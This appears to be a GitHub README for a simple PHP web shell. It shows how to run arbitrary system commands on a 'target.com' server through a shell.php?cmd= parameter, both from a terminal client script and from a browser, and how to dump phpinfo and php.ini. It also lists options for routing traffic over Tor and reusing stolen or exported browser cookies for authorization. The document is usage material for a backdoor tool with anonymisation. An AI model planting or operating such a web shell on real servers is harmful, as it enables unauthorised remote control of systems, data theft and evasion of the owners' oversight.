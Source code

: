 # Simple PHP Shell

This is probably the simplest php shell you can get
and you can use it from your terminal

You can read the article about it here: https://marcocaggiano.medium.com/how-to-write-a-simple-php-shell-46a5cbc5cd14

## How To Use It

### From Terminal
```
$ chmod +x shell.sh
$ cat "https://target.com/shell.php?cmd={cmd}" > target
$ ./shell.sh ls -al /

/root
/home
/srv
...
```
### From Browser

Go to URL: *https://target.com/shell.php?cmd=YOUR_SHELL_COMMAND_HERE&html=true*

PHPINFO: *https://target.com/shell.php?cmd=phpinfo*

PHP.INI: *https://target.com/shell.php?cmd=phpini*

## Available Command Line Options

```
   -v VERBOSE MODE
   --tor CONNECT TO TOR
   --cookies USE cookies.txt COOKIES IF YOU NEED AUTHORIZATION
```
For cookies.txt you can use cookies.txt Chrome or Firefox Extension,
and save cookies.txt in the same directory where the shell.sh is executed.
